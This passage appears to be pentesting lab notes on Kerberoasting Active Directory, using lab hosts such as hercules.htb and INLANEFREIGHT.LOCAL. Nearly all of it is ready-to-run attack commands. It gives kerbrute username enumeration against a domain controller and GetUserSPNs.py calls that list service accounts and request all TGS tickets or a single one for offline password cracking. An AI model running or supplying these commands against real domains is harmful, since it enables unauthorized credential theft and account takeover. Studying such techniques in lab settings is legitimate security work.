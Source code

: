 If you have credentials or hash to any domain joind user, then you can perform kerberoste.

To facilitate offline cracking, it is always good to use the `-outputfile` flag to write the TGS tickets to a file

#### Listing AD accounts
```sh
kerbrute userenum -d hercules.htb --dc 10.129.161.179 /snap/seclists/current/Usernames/xato-net-10-million-usernames-dup.txt -o valid_ad_users
```

#### Listing SPN Accounts with GetUserSPNs.py
```sh
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend
```

#### Requesting all TGS Tickets
```sh
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request 
```

#### Requesting a Single TGS ticket
```sh
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request-user sqldev
```
